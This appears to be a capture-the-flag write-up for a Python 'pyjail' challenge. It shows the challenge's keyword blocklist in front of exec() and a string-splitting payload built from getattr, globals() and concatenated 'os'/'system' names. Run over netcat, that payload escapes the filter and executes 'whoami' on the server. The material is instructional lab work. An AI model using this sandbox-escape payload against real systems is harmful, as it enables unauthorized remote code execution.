 Lets start our fuzzing for our perfect payload with ```__builtins__```

```c
┌──(kali㉿kali)-[~]
└─$ nc 34.93.14.197 31337
Hi! Welcome to pyjail!
def main():
    print("Hi! Welcome to pyjail!")
    print(open(__file__).read())
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write','process','socket','help']:
        if keyword in text.lower():
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
RUN
>>> print(__builtins__)
<module 'builtins' (built-in)>
```

From ```__builtins__``` lets try importing modules to call their function

Our payload to get RCE is,

```c
print(getattr(getattr(globals()['__builtins__'],'__im'+'port__')('o'+'s'),'sys'+'tem')('whoami'))
```

Passing this payload on the server to get arbitrary RCE

```c
┌──(kali㉿kali)-[~]
└─$ nc 34.93.14.197 31337
Hi! Welcome to pyjail!
def main():
    print("Hi! Welcome to pyjail!")
    print(open(__file__).read())
    print("RUN")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write','process','socket','help']:
        if keyword in text.lower():
            print("No!!!")
            return;
    else:
        exec(text)
if __name__ == "__main__":
    main()
RUN
>>> print(getattr(getattr(globals()['__builtins__'],'__im'+'port__')('o'+'s'),'sys'+'tem')('whoami'))
nobody
0
```
